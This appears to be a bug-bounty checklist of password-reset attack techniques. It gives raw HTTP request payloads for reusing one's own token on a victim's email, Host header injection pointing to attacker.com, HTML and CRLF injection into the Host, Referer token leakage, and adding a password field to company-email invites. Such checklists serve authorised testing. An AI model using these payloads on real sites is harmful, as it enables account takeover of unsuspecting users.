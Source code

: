 [ ] a lot of ideas in this article  by **omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```

[ ] Use Your Token on Victims Email
```
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$

```

[ ] Host Header Injection
```
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```

[ ] HTML injection in Host Header
```
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```

[ ] Leakage of Password reset in Referer Header
```
Referrer: https://website.com/reset?token=1234
```


[ ] Using Companies Email
```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips
```

[ ] CRLF in URL
```
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

